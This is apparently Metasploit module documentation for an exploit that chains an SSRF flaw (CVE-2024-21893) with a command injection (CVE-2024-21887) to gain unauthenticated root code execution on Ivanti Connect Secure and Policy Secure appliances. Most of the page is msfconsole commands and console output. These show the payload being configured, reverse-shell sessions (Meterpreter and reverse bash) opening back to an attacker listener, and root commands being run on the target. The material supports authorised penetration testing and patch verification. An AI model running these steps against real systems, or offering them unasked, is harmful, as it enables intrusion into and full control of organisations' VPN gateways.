## Vulnerable Application
This module chains a server side request forgery (SSRF) vulnerability (CVE-2024-21893) and a command injection
vulnerability (CVE-2024-21887) to exploit vulnerable instances of either Ivanti Connect Secure or Ivanti
Policy Secure, to achieve unauthenticated remote code execution. All currently supported versions 9.x and
22.x are vulnerable, prior to the vendor patch released on Feb 1, 2024. It is unknown if unsupported versions
8.x and below are also vulnerable.

## Testing
To test we used Ivanti Connect Secure version 22.3R1 (build 1647), deployed as a virtual appliance for HyperV. The
below steps are for HyperV, but it should be very similar to install on VMWare.

* Signup for a trial to download the file `ps-ics-hyper-v-isa-v-22.3r1.0-b1647-package.zip`
* From this ZIP file, extract the file `ISA-V-HYPERV-ICS-22.3R1-1647.1-VT-hyperv.vhdx`
* Create a new VM in HyperV and specify the VHDX file as the hard drives media.
* Boot the VM and follow the console instructions to install the product.
* After installation completes, you will have created an admin account and password. You can log into the admin
  web interface by visiting https://<TARGET_IP_ADDRESS>/admin in your web browser if you want.

## Verification Steps
1. Start msfconsole
2. `use exploit/linux/http/ivanti_connect_secure_rce_cve_2024_21893`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set target 0`
5. `set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp`
6. `check`
7. `exploit`

## Scenarios
To support a broad set of available payloads, we support both a Linux target and a Unix Target. This allows for native
Linux payloads to be used, but also payloads like Python meterpreter or a Bash shell.

### Linux Target

```
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > set RHOST 192.168.86.111
RHOST => 192.168.86.111
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > set target 0
target => 0
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp
PAYLOAD => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > show options

Module options (exploit/linux/http/ivanti_connect_secure_rce_cve_2024_21893):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.111   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      BiLTwvbxndD      no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               eth0             yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > check
[*] 192.168.86.111:443 - The service is running, but could not be validated.
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Sending stage (3045380 bytes) to 192.168.86.111
[*] Meterpreter session 4 opened (192.168.86.42:4444 -> 192.168.86.111:49328) at 2024-02-06 11:38:33 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.86.111
OS           :  (Linux 4.15.18.34-production)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > cat /home/ssl-vpn-VERSION
export DSREL_MAJOR=22
export DSREL_MINOR=3
export DSREL_MAINT=1
export DSREL_DATAVER=4802
export DSREL_PRODUCT=ssl-vpn
export DSREL_DEPS=ive
export DSREL_BUILDNUM=1647
export DSREL_COMMENT="R1"
meterpreter > exit
[*] Shutting down session: 4

[*] 192.168.86.111 - Meterpreter session 4 closed.  Reason: User exit
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > 
```

### Unix Target

```
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > set target 1
target => 1
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > set PAYLOAD cmd/unix/reverse_bash
PAYLOAD => cmd/unix/reverse_bash
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > show options

Module options (exploit/linux/http/ivanti_connect_secure_rce_cve_2024_21893):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.111   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  eth0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Unix Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > check
[*] 192.168.86.111:443 - The service is running, but could not be validated.
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Command shell session 5 opened (192.168.86.42:4444 -> 192.168.86.111:49330) at 2024-02-06 11:39:45 +0000

id
uid=0(root) gid=0(root) groups=0(root)
cat /home/ssl-vpn-VERSION
export DSREL_MAJOR=22
export DSREL_MINOR=3
export DSREL_MAINT=1
export DSREL_DATAVER=4802
export DSREL_PRODUCT=ssl-vpn
export DSREL_DEPS=ive
export DSREL_BUILDNUM=1647
export DSREL_COMMENT="R1"
exit
[*] 192.168.86.111 - Command shell session 5 closed.
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > 
```
